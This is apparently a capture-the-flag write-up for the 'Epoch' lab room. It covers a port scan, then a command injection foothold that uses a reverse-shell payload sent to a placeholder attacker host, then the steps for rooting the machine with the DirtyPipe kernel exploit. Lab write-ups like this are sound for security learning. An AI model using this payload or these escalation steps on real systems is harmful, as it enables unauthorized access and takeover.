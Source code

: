 <h1>writeup-Epoch</h1>
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication, So let's start the machine and check out the WebApplication.
    The room also suggests Command Injection so maybe that's the vulnerability in the WebApplication.
</h3></blockquote>
<br>

<ol>
    <li>
        <h2>Reconnaissance</h2>
        <ul>
            <li>
                <h3>Port Scanning</h3>
                <ul>
                    Rustscan result :
                    <ul>
                        <code>Open 10.10.215.48:22 - ssh</code><br>
                        <code>Open 10.10.215.48:80 - http</code>
                    </ul>
                </ul>
            </li>
            <li>
                <h3>SSH</h3>
                <ul><code>
                    OpenSSH 8.2p1 Ubuntu 4ubuntu0.4
                </code></ul>
            </li>
            <li>
                <h3>WebPage</h3>
                <ul>
                    <img src="./img/webPage.png" alt="webPage" width="500"><br>
                </ul>
            </li>
        </ul>
    </li><br>
    <li>
        <h2>Foothold</h2>
        <ul>
            <li>
                <h3>SSH</h3>
                <ul>Brute forcing ssh with hydra will definitely fail and it's not the main objective 
                    of this room so let's move on to the WebApplication.</ul>
            </li>
            <li>
                <h3>WebApplication</h3>
                <ul>
                    We will start with Command Injection because the room description suggests that.
                    Let's try some command injection tricks from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>. <br>
                    <img src="./img/webPage2.png" alt="webPage2" width="500"><br>
                    Now that we know command injection works, let's get a shell.
                    <ul>
                        <li>Step 1:
                            <ul>
                                Start a nc listener.<br>
                                <code>nc -lvnp 1234</code>
                            </ul>
                        </li>
                        <li>Step 2:
                            <ul>
                                Enter your reverse shell command in the input field with command injection vulnerability and click on <code>Convert</code> button.<br>
                                <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>
                                You got a reverse shell.
                            </ul>
                        </li>
                    </ul>
                    <h2>
                        You can find your flag using <code>env</code>.
                    </h2>
                </ul>
            </li>
        </ul>
    </li>
    <li>
        <h2>Root</h2>
        <ul>
            <li>
                <h3>Things i tried and didn't work :</h3>
                <ol>
                    <li>
                        <code>sudo -l</code>
                        <ul>
                            <code>sh: 2: sudo: not found</code>
                        </ul>
                    </li>
                    <li>
                        <code>find / -type f -perm -04000 2>/dev/null</code>
                        <ul>Nothing intresting here</ul>
                    </li>
                    <li>
                        crontab
                        <ul>
                            <code>No such file or directory</code>
                        </ul>
                    </li>
                </ol>
            </li>
            <li>
                <h3>Thing that did work :</h3>
                <ul>
                    <code>uname -a</code> will show you that this machine is running on <code>linux kernel version 5</code> which might be vulnerable to <code>DirtyPipe</code>.
                    So heres how we will exploit that.
                    <li>
                        Step 1:
                        <ul>Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.</ul>
                    </li>
                    <li>
                        Step 2:
                        <ul>Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.</ul>
                    </li>
                    <li>
                        step 3:
                        <ul>
                            compile and execute the executable using <code>gcc</code>.
                        </ul>
                    </li>
                </ul>
                <img src="./img/root.png" alt="root" width="500">
            </li>
        </ul>
    </li><br>
</ol>